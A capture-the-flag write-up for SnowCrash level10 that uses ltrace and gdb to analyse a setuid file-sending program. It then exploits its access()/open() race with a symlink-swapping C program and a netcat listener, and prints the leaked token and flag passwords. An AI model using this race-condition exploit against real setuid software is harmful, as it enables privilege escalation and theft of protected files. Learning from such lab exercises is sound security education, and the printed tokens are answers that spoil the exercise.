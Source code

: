 
## Level10

```bash
level10@SnowCrash:~$ ls -lA
total 28
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

```bash
level10@SnowCrash:~$ ltrace ./level10
__libc_start_main(0x80486d4, 1, 0xbffff7b4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
        sends file to host if you have access to it
)                                                        = 65
exit(1 <unfinished ...>
+++ exited (status 1) +++

level10@SnowCrash:~$ ltrace ./level10  flag
__libc_start_main(0x80486d4, 2, 0xbffff7b4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
        sends file to host if you have access to it
)                                                        = 65
exit(1 <unfinished ...>
+++ exited (status 1) +++

level10@SnowCrash:~$ ltrace ./level10  flag 127.0.0.1
__libc_start_main(0x80486d4, 3, 0xbffff7a4, 0x8048970, 0x80489e0 <unfinished ...>
access("flag", 4)                                                                                                 = -1
printf("You don't have access to %s\n", "flag"You don't have access to flag
)                                                                   = 30
+++ exited (status 30) +++
level10@SnowCrash:~$
```

```bash
level10@SnowCrash:~$ nc -l 6969 # In a new window
```

### Exploit (1st attempt)

The goal of this was to run the program through gdb to a symlink pointing to a readable file, then make a breakpoint after the access() call, change the file pointed by the symlink to the token file, and continue the execution of the program

- Create a symlink to a file we're sure will exists for access()

```bash
level10@SnowCrash:~$ ln -s /proc/self/maps /tmp/symlink
```

- Then in GDB, run the program until the access() call

```bash
level10@SnowCrash:~$ gdb ./level10
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level10/level10...done.

(gdb) break main
Breakpoint 1 at 0x80486e7: file level10.c, line 12.

(gdb) run /tmp/symlink 127.0.0.1
Starting program: /home/user/level10/level10 /tmp/symlink 127.0.0.1

Breakpoint 1, main (argc=3, argv=0xbffff774) at level10.c:12
12      level10.c: No such file or directory.

(gdb) break *0x0804874e ; one instruction after access()
Breakpoint 2 at 0x804874e: file level10.c, line 24.

(gdb) continue
Continuing.

Breakpoint 2, 0x0804874e in main (argc=3, argv=0xbffff774) at level10.c:24
24      in level10.c
```

- In our shell, change the file pointed by the symlink

```bash
level10@SnowCrash:~$ rm /tmp/symlink

level10@SnowCrash:~$ ln -s /home/user/level10/flag /tmp/symlink
```

- Then in GDB, continue the execution of the program

```bash
(gdb) continue
Continuing.
Connecting to 127.0.0.1:6969 .. Connected!
Sending file .. Damn. Unable to open file
[Inferior 1 (process 3688) exited with code 01]
```

Unfortunately, the setuid() call in the program is not executed when running the program with ptrace() (as gdb does), so this cannot work, I chose to kept this attempt to explain this to my mates doing the peer-reviews

- https://unix.stackexchange.com/questions/15911/can-gdb-debug-suid-root-programs

### Exploit (2nd attempt)

```bash
man access
...
NOTES
       Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.  For this reason,  the
       use of this system call should be avoided.  (In the example just described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID and then call open(2).)
```

- https://security.stackexchange.com/questions/42659/how-is-using-acces-opening-a-security-hole

- http://www.csl.sri.com/users/ddean/papers/usenix04.pdf

The idea here would be to switch the file pointed by a symlink between the access() and open() calls of the `level10` program.

To do this, we'll make a binary that'll fork() to execute the `level10` binary, and while it's running, change the pointed location of our symlink


- Create a temporary directory with rights and the following c file

```bash
cd $(mktemp -d)
nano symlink_spam.c
```

##### Symlink_spam.c:

```c
#include <unistd.h>
#include <stdlib.h>
#include <errno.h>
#include <string.h>

#define SYMLINK_TEMP_TARGET "/proc/self/stat"
#define SYMLINK_END_TARGET "/home/user/level10/token"
#define SYMLINK_LOCATION "/tmp/link"

const char* table[] = {
    "/home/user/level10/level10",
    SYMLINK_LOCATION,
    "127.0.0.1"
};

int             main(int ac, char **av, char **envp)
{
        int             CYCLES=1250000;

        symlink(SYMLINK_TEMP_TARGET, SYMLINK_LOCATION);
        if (fork() == 0) {
                execve("/home/user/level10/level10", table, envp);
                strerror(errno); // Used for debugging with strace -f
                exit(0);
        }
        while (CYCLES--)
                ;
        unlink(SYMLINK_LOCATION);
        symlink(SYMLINK_END_TARGET, SYMLINK_LOCATION);
        return (0);
}
```

- Execute our program in a loop

```bash
while [ 1 ]; do rm /tmp/link ; gcc ./symlink_spam.c && ./a.out ; done;
```

- And after some time in our netcat shell:

```bash
level10@SnowCrash:~$ while [ 1 ]; do echo ------------------------ ; nc -l 6969; done;
...
------------------------
.*( )*.
30633 (level10) R 30632 30631 3564 34820 30631 0 137 0 0 0 0 0 0 0 20 0 1 0 1583431 2052096 70 4294967295 134512640 1345
15796 3221223296 3221218936 3086865448 0 0 0 0 0 0 0 17 0 0 0 0 0 0
------------------------
.*( )*.
------------------------
.*( )*.
------------------------
.*( )*.
------------------------
.*( )*.
30781 (level10) R 30780 30779 3564 34820 30779 0 137 0 0 0 0 0 0 0 20 0 1 0 1583539 2052096 70 4294967295 134512640 1345
15796 3221223296 3221218936 3086865448 0 0 0 0 0 0 0 17 0 0 0 0 0 0
------------------------
.*( )*.
------------------------
.*( )*.
------------------------
.*( )*.
woupa2yuojeeaaed06riuj63c
------------------------
.*( )*.
woupa2yuojeeaaed06riuj63c
------------------------
.*( )*.
31404 (level10) R 31403 31403 3564 34820 31403 0 137 0 0 0 0 0 0 0 20 0 1 0 1584507 2052096 70 4294967295 134512640 1345
15796 3221223296 3221218936 3086865448 0 0 0 0 0 0 0 17 0 0 0 0 0 0
------------------------
```

### Goto level11

```bash
level10@SnowCrash:/tmp/tmp.PvcifhUUhs$ su flag10
Password: <<< 'woupa2yuojeeaaed06riuj63c'
Don\'t forget to launch getflag !

flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c

flag10@SnowCrash:~$ su level11
Password: <<< 'feulo4b72j7edeahuete3no7c'
```
